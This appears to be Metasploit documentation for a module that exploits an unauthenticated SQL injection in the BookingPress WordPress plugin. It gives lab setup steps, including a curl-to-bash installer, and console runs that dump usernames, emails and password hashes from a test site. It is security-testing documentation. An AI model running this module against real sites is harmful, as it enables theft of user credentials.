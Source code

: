 ## Vulnerable Application

The BookingPress WordPress plugin before 1.0.11 fails to properly sanitize user supplied POST data before it is used in
a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to
unauthenticated users), leading to an unauthenticated SQL Injection.

### Setup
#### Ubuntu 20.04 with Docksal
Install Docksal:
```
sudo apt update
sudo apt install curl
bash <(curl -fsSL https://get.docksal.io)
sudo usermod -aG docker $USER
```

Reboot the VM (Docksal needs to be able to run `docker` without sudo)
```
msfuser@ubuntu:~$ fin project create
1. Name your project (lowercase alphanumeric, underscore, and hyphen): msf

2. What would you like to install?
   PHP based
    1.  Drupal 9 (Composer Version)
    2.  Drupal 9 (BLT Version)
    3.  Drupal 9
    4.  Drupal 7
    5.  Wordpress
    6.  Magento
    7. Laravel
    8. Symfony Skeleton
    9. Symfony WebApp
    10. Grav CMS
    11. Backdrop CMS

Go based
12. Hugo

JS based
13. Gatsby JS
14. Angular

HTML
15. Static HTML site

Custom
0. Custom git repository


Enter your choice (0-15): 5

Project folder:   /home/msfuser/msf
Project software: Wordpress
Source repo:      https://github.com/docksal/boilerplate-wordpress.git
Source branch:    <default>
Project URL:      http://msf.docksal

Do you wish to proceed? [y/n]: y

... 

Success: WordPress installed successfully.

real	0m10.112s
user	0m0.327s
sys	0m0.061s
Open http://msf-wp.docksal in your browser to verify the setup.
Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin  
 DONE!  Completed all initialization steps.
```

Download a vulnerable version of BookingPress
`wget https://downloads.wordpress.org/plugin/bookingpress-appointment-booking.1.0.10.zip`

Navigate to the wordpress admin page that was just setup by docksal:
`Admin panel: http://msf-wp.docksal/wp-admin. User/password: admin/admin`

Navigate to `Plugins` on the left hand menu, then select `Add New` then select `Upload Plugin`

Select `Browse...` and browse to the `bookingpress-appointment-booking.1.0.10.zip` file just downloaded, click `Install Now`

You should see the following output in the browser:
```
Installing Plugin from uploaded file: bookingpress-appointment-booking.1.0.10.zip

Unpacking the package…

Installing the plugin…

Plugin installed successfully.
```

Click `Activate Plugin`

The BookingPress plugin has to be in use on the wordpress site in order to exploit the vulnerability:

1. Create a new "category" and associate it with a new "service" via the BookingPress admin menu
   (/wp-admin/admin.php?page=bookingpress_services)
1. Create a new page on the wordpress site that you've just set up by clicking `+ New` at the top of the screen and then
   select `Page` from the dropdown.
1. Paste `[bookingpress_form]` on the new page and click `publish`
1. Navigate to `/bookingpress/` and you should see BookPress running with the Category / Service you created in step 1.

## Options

### BOOKING_PRESS_PAGE

The webpage that bookingPress is running on. Example: `/bookingpress/`

## Verification Steps

1. Start msfconsole
1. Do: `use gather/wp_bookingpress_category_services_sqli`
1. Set the options `RHOSTS` (you may also have to set `RPORT` and `BOOKING_PRESS_PAGE` depending on how the target is configured)
1. Run the module
1. Receive `Wordpress User Credentials` information displayed in a table

## Scenarios
### Booking Press 1.0.10, Wordpress Running Via Docksal, Ubuntu 20.04
```
msf6 > use gather/wp_bookingpress_category_services_sqli
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rhosts localhost
rhosts => localhost
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set rport 8000
rport => 8000
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > set AutoCheck false
AutoCheck => false
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) > run

[!] AutoCheck is disabled, proceeding with exploitation
[*] Found 5 users in the database
[*] Extracting credential information
Wordpress User Credentials
==========================

 Username       Email                         Hash
 --------       -----                         ----
 admin          admin@admin.com               $P$BfxUckldN6AiHPD0BK6jg58se2b.aL.
 hackerman      hackerman@hacktheworld.io     $P$BESfz7bqSOY8VkUfuYXAZ/bT5E36ww/
 mr_metasploit  mr_metasploit@metaslpoit.org  $P$BDb8pIfym5dS6WTnNU8vU5Uk6i89fk.
 msfuser        msfuser@rapid7.com            $P$BpITVDPiqOZ7fyQbI5g9rsgUvZQFBd1
 todd           todd@toddtown.com             $P$BnlpkVgxGFWnmvdDQ3JStgpIx8LMFj0

[*] Auxiliary module execution completed
msf6 auxiliary(gather/wp_bookingpress_category_services_sqli) >
```
